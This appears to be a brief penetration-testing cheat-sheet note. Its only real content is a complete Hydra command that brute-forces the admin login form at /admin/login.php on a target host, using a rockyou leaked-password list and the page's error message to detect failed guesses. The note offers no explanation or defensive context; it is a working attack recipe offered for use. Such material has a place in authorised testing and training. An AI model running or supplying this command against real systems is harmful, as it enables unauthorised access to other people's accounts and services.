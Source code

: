 # hydra brute force HTTP post form
```bash
hydra $IP http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect" \
-l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt -t 10 -w 30 -o hydra-http-post-attack.txt
```

# Related


Tags:

    

